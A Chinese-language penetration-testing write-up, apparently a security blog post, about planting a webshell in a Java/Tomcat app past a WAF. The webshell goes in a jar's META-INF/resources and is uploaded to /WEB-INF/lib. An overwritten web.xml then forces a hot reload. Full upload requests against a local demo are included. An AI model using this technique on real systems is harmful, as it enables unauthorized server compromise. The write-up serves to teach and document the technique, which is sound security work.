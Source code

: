 在某次对某单位进行渗透测试时，遇到一个上传点，网站是java写的，但是上传jsp和jspx时会被waf拦截，但由于上传路径可控，经过不懈努力最终成果拿到shell，于是写这篇文章记录一下

0x01 环境介绍
=========

由于原来网站已经关闭了，所以我这几简单写了一个demo，实现了指定路径上传文件，但是过滤了jsp后缀名

![image-20231013151725099](https://shs3.b.qianxin.com/butian_public/f7539172059dc1ad043e53259533a728a0f177e53c57f.jpg)

![image-20231013151756181](https://shs3.b.qianxin.com/butian_public/f9028767996bd41971ac5a954f0dbbd28790e06d371c0.jpg)

当我们上传文件时，会自动上传到upload目录下

![image-20231013152338129](https://shs3.b.qianxin.com/butian_public/f232401f2d91408b21a326ea02eb9b2231c57dac1ce6a.jpg)

![image-20231013152406844](https://shs3.b.qianxin.com/butian_public/f296436d63e2fb741fdc798878d175edf6cc500c6adf8.jpg)

如果后缀名为jsp或者jspx则会被拦截

![image-20231013152259434](https://shs3.b.qianxin.com/butian_public/f2342724768e0fe00e8e3c459f47437aa5b8b11824c8e.jpg)

0x02 前置知识
=========

在 Java web 应用程序中`/WEB-INF`目录通常是的一个特定目录，它用于存放与应用程序配置、安全性和资源管理相关的文件和目录，并且该目录下的资源文件无法直接通过浏览器访问

![image-20231016145725677](https://shs3.b.qianxin.com/butian_public/f143349891c5647cbdf77bfba610c53b0aed43abc6b22.jpg)

`/WEB-INF`下的一般有固定的名称和结构。

- `/WEB-INF/web.xml` 配置文件，它包含有关应用程序的部署和配置信息。这包括 servlet 映射、过滤器配置、监听器配置、会话管理等。
- `/WEB-INF/classes` 目录通常用于存放 Java 类文件，包括 servlet 类和其他应用程序特定的 Java 类。这些类文件在应用程序中可以被加载和调用。
- `/WEB-INF/lib` 通常用于存放应用程序所需的外部 Java 库（JAR 文件）。这些库文件包含应用程序依赖的代码，例如框架、工具库和第三方库，应用程序的类加载器将从该JAR文件中加载相应的资源。

当使用某个类时，Web应用程序将尝试从/WEB-INF/classes加载该类，如果找不到，则尝试从/WEB-INF/lib下的JAR文件中搜索它。

在JAR文件的`/META-INF/resources`目录中可以用来放置JSP的静态资源，**在servlet3.0协议规范中，包含在jar文件 /META-INFO/resources/ 路径下的资源是可以直接访问的**。

例如在 Java web 应用程序的`/WEB-INF/lib`中添加一个jar包，在其`/META-INF/resources/`中有一个`index.html`

![image-20231016152434929](https://shs3.b.qianxin.com/butian_public/f1185348cd9d65b72b0d6be44288e6b64cfdd565a4b12.jpg)

启动tomcat，请求的URL包含`/demo/index.html` ，会使用这个JAR文件中的`/META-INF/resources/index.html`，因为实际上在/demo/目录下不存在index.html。

![image-20231016152534755](https://shs3.b.qianxin.com/butian_public/f363043750e262f2b36eaac4cb8e6174cd128fd15ab4f.jpg)

0x03 利用过程
=========

既然可以上传至任意路径，那么我们可以把webshell放在`/META-INFO/resources/`路径下打包成jar包，然后上传jar包到`/WEB-INF/lib`中

首先使用idea新建一个项目，生成器选择`Jakarta EE`，模板选择`库`

![image-20231016172844622](https://shs3.b.qianxin.com/butian_public/f27948891c2117f1b9c8123fb145ee17f0c563aeed744.jpg)

然后生成的模板中`demo2\src\main\resources`下新建目录`META-INF/resources`，然后在其下面放入webshell，这里我以打印一句话作为示例

![image-20231016173424559](https://shs3.b.qianxin.com/butian_public/f4717085bcb37c903215117b29f15563f573740adfa3a.jpg)

然后运行`mvn package`构建项目并打包成jar包

![image-20231016174429357](https://shs3.b.qianxin.com/butian_public/f409760994339f34101272d890caf4863c87181c054ca.jpg)

然后发包将生成的jar上传至`/WEB-INF/lib`

```php
POST /demo/upload?uploadDirectory=/WEB-INF/lib HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="test.jar"
Content-Type: application/octet-stream

PK\x03\x04
......(省略)
\x00\x00\x08\x00\x00y\x8dPW\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00META-2\x00\x00V\x04\x00\x00\x00\x00
------WebKitFormBoundary67oVSNngE4QsAxoK--

```

（下图中上传文件使用的是yakit语法）

![image-20231016174505275](https://shs3.b.qianxin.com/butian_public/f27255653d90b65bd29a72cf62315014ee3e8dde80935.jpg)

上传成功，但是现在直接访问`http://127.0.0.1:8082/demo/shell.jsp`会提示404

![image-20231016174703678](https://shs3.b.qianxin.com/butian_public/f414718fd8d41cea35751ec0d74d2c57d76297c7ebb92.jpg)

这是因为在Tomcat中重新加载位于`lib`目录中的JAR文件通常需要重启Tomcat服务器，因为`lib`目录中的JAR文件是在Tomcat启动时加载的，而不是在运行时可以动态重新加载的。

然而有一种方法：

默认情况下，`autoDeploy` 设置为 `true`，代表tomcat默认开启热部署，**一旦web应用的web.xml文件的时间戳发生变化（创建时间，修改时间或访问时间发生变化），tomcat就会重新加载应用。**

那怎样使web.xml文件时间戳发生变化呢？ 可以通过上传一个同名同内容的文件覆盖它，即在/WEB-INF目录下上传相同内容的web.xml

```php
POST /demo/upload?uploadDirectory=/WEB-INF HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="web.xml"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">        
</web-app>
------WebKitFormBoundary67oVSNngE4QsAxoK--
```

![image-20231018162707269](https://shs3.b.qianxin.com/butian_public/f5261496a00e710a774db6e8a46e653902d0f5aff4df6.jpg)

当上传成功后可以观察到tomcat日志信息，成功重新加载应用

![image-20231018162750501](https://shs3.b.qianxin.com/butian_public/f85188123620e8071ab887a84e68d33c4e9440f12fc6f.jpg)

再次访问`http://127.0.0.1:8082/demo/shell.jsp`也成功解析

![image-20231018162856743](https://shs3.b.qianxin.com/butian_public/f53447016e0d64a9e17ff7a060594604e5a9b96d58160.jpg)

此外，由于可以该改变web.xml中的内容，所以如果可以寻找到未授权的危险类也可以直接在web.xml中添加路由调用对应的类。